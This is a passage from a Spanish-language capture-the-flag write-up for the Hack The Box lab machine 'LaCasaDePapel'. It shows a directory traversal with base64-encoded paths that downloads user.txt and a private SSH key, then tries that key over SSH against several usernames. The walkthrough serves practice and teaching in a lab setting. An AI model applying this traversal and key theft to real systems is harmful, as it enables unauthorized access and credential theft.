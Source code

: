 ```bash
https://lacasadepapel.htb/?path=../
```

aqui vemos el user.txt.

```bash
echo -n '../user.txt' | base64
#Output
Li4vdXNlci50eHQ=
```

y si vamos ahora a la url 
```bash
 https://lacasadepapel.htb/file/Li4vdXNlci50eHQ= 
```
 vemos que podemos descargar el user.txt. Pero a nosotros nos interessa ganar accesso
al systema.

En la url 
```bash
 https://lacasadepapel.htb/?path=../ 
```
 vemos que podemos pinchar al directorio 
```bash
 .ssh 
```
 y a dentro hay una 
```bash
 id_rsa 
```
. Hacemos lo mismos que con el user.txt

## Vuln exploit & Gaining Access {-}

### SSH {-}

```bash
echo -n '../.ssh/id_rsa' | base64
#Output
Li4vLnNzaC9pZF9yc2E=
```

y con la url 
```bash
 https://lacasadepapel.htb/file/Li4vLnNzaC9pZF9yc2E= 
```
 descargamos el fichero id_rsa.

```bash
mv /home/s4vitar/Descargas/firefox/id_rsa .
chmod 600 id_rsa
ssh -i id_rsa berlin@10.10.10.131
```

como no va intentamos con los otros usuarios.

```bash
ssh -i id_rsa berlin@10.10.10.131
ssh -i id_rsa dali@10.10.10.131
ssh -i id_rsa nairobi@10.10.10.131
ssh -i id_rsa oslo@10.10.10.131
ssh -i id_rsa professor@10.10.10.131
```
